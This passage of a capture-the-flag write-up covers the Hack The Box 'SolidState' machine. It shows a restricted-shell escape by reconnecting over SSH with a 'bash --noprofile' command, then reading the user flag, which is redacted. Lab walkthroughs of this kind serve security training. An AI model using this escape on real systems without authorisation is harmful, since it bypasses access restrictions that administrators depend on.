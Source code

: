 <br />
Check the bin folder to see what we can run.

{% raw %}
```sh
mindy@solidstate:~$ ls -la bin/
total 8
drwxr-x--- 2 mindy mindy 4096 Apr 26  2021 .
drwxr-x--- 4 mindy mindy 4096 Apr 26  2021 ..
lrwxrwxrwx 1 root  root     8 Aug 22  2017 cat -> /bin/cat
lrwxrwxrwx 1 root  root     8 Aug 22  2017 env -> /bin/env
lrwxrwxrwx 1 root  root     7 Aug 22  2017 ls -> /bin/ls
```
{% endraw %}

<br />
Run compgen -c to get a list of commands that we can run.

{% raw %}
```sh
mindy@solidstate:~$ compgen -c
if
then
else
elif
fi
case
esac
for
select
while
until

<snip>
```
{% endraw %}

<br />
Logout of the ssh session and log back in using the -t option with no profile to try and stop the rbash from loading.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/solidstate]
└─$ ssh mindy@10.10.10.51 -t "bash --noprofile"
mindy@10.10.10.51's password: 
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$
```
{% endraw %}

<br />
Get the user.txt flag.

{% raw %}
```sh
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ cat user.txt
<redacted>
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:44:de brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.51/24 brd 10.10.10.255 scope global ens192
       valid_lft forever preferred_lft forever
```